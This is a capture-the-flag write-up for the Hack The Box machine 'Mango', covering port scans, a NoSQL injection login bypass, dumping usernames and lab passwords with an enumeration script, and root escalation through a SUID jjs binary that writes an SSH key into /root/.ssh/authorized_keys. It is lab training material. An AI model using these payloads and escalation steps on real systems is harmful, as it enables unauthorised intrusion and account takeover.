


# [Mango](https://app.hackthebox.com/machines/mango/)

```bash
nmap -p- --min-rate 10000  10.10.10.162 -Pn
```


After knowing open ports (22,80,443), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.162 -Pn 
```


From nmap scan result, I see that 'staging-order.mango.htb' and 'mango.htb' belong to our target.

Let's add these hosts into '**/etc/hosts**' file.


We have already mango.htb application is ready which look like 'Google'


By browsing 'http://staging-order.mango.htb/', we see another application (Mango).


Let's try to login machine and see full request.




Let's try to bypass login form. For this, I just did **NoSQL Injection.**

```bash
username[$ne]=dr4ks&password[$ne]=dr4ks&login=login
```


Now, I am already on 'Dashboard' means (home.php) page, it says it is under construction.




As we know, there is NoSQL injection vulnerability, we can dump users and passwords from NoSQL database.

For this, I have a [script](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) to enumerate users and passwords of them.


Let's use this script as below.

```bash
python2 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/ -up username -pp password -ep username 
```


I find two usernames being 'admin' and 'mango'.


Now, it's time to enumerate passwords of NoSQL db.
```bash
python2 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/ -up username -pp password -ep password
```


I find two different passwords being 'h3mXK8RhU~f{]f5H' and 't9KcS3>!0B#2'.


Let's login into SSH via this credentials.

I tried below credentials.

mango: h3mXK8RhU~f{]f5H


I cannot read 'user.txt' via '**mango**' user. I need to switch '**admin**' user.

admin: t9KcS3>!0B#2


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

user.txt


I searched SUID files on target machine.
```bash
find / -user root -perm -4000 2>/dev/null -ls
```


I see that **'/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs'** has SUID binary , that's why we can do privilege escalation via this.

I find exploit from [Gtfobins](https://gtfobins.github.io/gtfobins/jjs/#file-write)

That I add my public key into machine and login via private key.

First, I just open JJS via '/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs' on Terminal.

Then,  I wrote below payload.
```java
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("DATA");
fw.close();
```


I can login via my private key file.

```bash
ssh -i /root/.ssh/id_rsa root@10.10.10.162 
```

